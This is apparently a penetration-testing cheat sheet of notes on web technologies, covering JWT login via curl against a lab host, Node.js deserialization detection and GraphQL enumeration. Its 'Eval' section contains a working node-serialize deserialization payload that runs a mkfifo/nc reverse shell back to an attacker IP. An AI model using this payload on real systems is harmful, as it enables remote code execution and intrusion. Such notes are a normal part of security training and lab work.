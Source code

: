 <!-- TITLE: 13 - Web Technologies -->
<!-- SUBTITLE: A quick summary of 13 Web Technologies -->

# Node.JS Express

## Authentication

### JSON Web Tokens (JWT)

Here we use `curl` to authenticate to the `/login` endpoint to obtain a token

```
curl -s -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' --data '{"usern
ame":"admin","password":"Zk6heYCyv6ZE9Xcg"}' http://10.10.10.137:3000/login
```

Subsequent request with Authorization header and bearer token:

```
curl -H 'Accept: application/json' -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MDI1OTU5LCJleHAiOjE1NTkxMTIzNTl9._OLUZOeTHP5wjEpQCp8MCtur2Eh689HVLNc1yk82b2U" http://10.10.10.137:3000/users | jq
```

## Serialization

### Detection

- Check for JSON response
- Base64 decode
- Swap JSON value from int to unquoted string, or string to integer and check for error


### Eval

```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f', function(error, stdout, stderr) {console.log(stdout) })","country":"Lameville","city":"Lametown","num":"2"}
```

## Frameworks

### GraphQL

- GraphQL_Introspection.py: A useful tool to enumerate GraphQL queries/endpoints
